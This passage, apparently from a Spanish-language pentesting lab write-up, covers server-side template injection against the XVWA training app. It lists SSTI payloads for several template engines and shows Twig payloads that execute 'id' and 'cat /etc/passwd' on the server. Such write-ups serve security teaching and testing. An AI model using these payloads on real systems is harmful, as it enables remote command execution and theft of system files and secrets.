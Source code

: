 ```
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
-------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
-------------------------------------------------------------------
Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
-------------------------------------------------------------------
Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------
```
mayor información de valores que generan inyección puede ingresar a esta ruta [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Volvamos a XVWA y ahora en la caja de texto vamos a ingresar lo siguiente

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image](https://user-images.githubusercontent.com/50930193/171770500-3f90b86a-c99a-4bab-bff9-a6513f210463.png)

Allí notamos que se puede ejecutar un comando en el servidor, ahora leamos el archivo de usuarios
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}
```
Nos saldra error pero si lo codificamos veremos que el error no se presenta
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat+/etc/passwd")}}
```
![image](https://user-images.githubusercontent.com/50930193/171771057-2142e593-1498-4102-99a2-8b26801ad30e.png)
